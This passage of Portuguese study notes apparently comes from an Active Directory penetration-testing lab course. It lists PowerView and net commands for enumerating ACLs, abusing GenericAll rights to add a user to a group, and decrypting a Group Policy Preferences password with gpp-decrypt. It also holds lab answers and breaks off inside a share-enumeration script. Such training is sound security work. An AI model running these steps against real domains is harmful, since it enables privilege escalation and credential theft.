 ### Resolução dos laboratórios
1. Inicie o VM Group 1 e faça login no CLIENT75 como _stephanie_ . Repita as etapas de enumeração descritas nesta seção para enumerar a Service Account. Qual é o nome do identificador de serviço exclusivo usado para associar a um serviço específico no Active Directory? R = **SPN**

## 21.3.4. Enumerando permissões de objetos
### Comandos úteis
- lista as permissões de um usuário na ACL `Get-ObjectAcl -Identity stephanie`, atentar para os valores dos campos **ObjectSID**, **ActiveDirectoryRights** e **SecurityIdentifier**
- usando o PowerView podemos converter o valor ObjectSID de um objeto para um nome legível `Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104`, este comando retornará **CORP\stephanie**
- usando o PowerView para converter o **SecurityIdentifier** `Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553`, valor retornado **CORP\RAS and IAS Servers**
- Obtendo uma lista comas as permissões **SecirityIdentifier** e **ActiveDirectoryRights** de cada usuário no _"Management Department"_ filtrando pela permissão mais alta que é o **GenericAll** `Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights`
- Convertendo uma lista de SIDs em nomes legíveis `"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName`
- Aproveitando as permissões **GenericAll** da _stephanie_ para adicioná-la no grupo _"Management Department"_ `net group "Management Department" stephanie /add /domain`
- Verificando membros de grupos específicos com o PowerView `Get-NetGroup "Management Department" | select member`
- Remover um usuário de um grupo `net group "Management Department" stephanie /del /domain`

```
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18,S-1-5-21-1987370270-658905905-1781884369-519" | convert-sidtoname
```

### Resolução dos laboratórios
1. Inicie o VM Group 1 e faça login no CLIENT75 como _stephanie_ . Repita as etapas de enumeração descritas nesta seção para entender as permissões do objeto. Que tipo de entradas compõem uma ACL? R = **ACE**
2. Qual é a ACL mais poderosa que podemos ter em um objeto no Active Directory? R = **GenericAll**

## 21.3.5. Enumerando compartilhamentos de domínio
### Comandos úteis
- Usando o PowerView para listar compartilhamento de domínios `Find-DomainShare`
- listando o SYSVOL que é um compartilhamento do próprio controlador de domínio `ls \\dc1.corp.com\sysvol\corp.com\`
- comando do kali para descriptografar senhas armazenadas no GPP `gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"`, a saída deste comando revela a senha `P@$$w0rd` do **dc1.corp.com**
- possível senha de email para stephanie _HenchmanPutridBonbon11_ 
- stript para enumerar itens compartilhados entre dominios
```
# lista de domínios compartilhados
$Shares = @(
    "\\DC1.corp.com\NETLOGON",
    "\\web04.corp.com\backup",
    "\\FILES04.corp.com\docshare",
    "\\client75.corp.com\sharing"
)

# loop para procurar arquivos e diretórios recursivamente, vai gerar um erro em domínios que não tem permissão de acesso
foreach ($Share in $Shares) {
    Write-Host "Accessing $Share"
    Get-ChildItem -Path $Share -Recurse -ErrorAction SilentlyContinue | ForEach-Object {
        Write-Host $_.FullName
```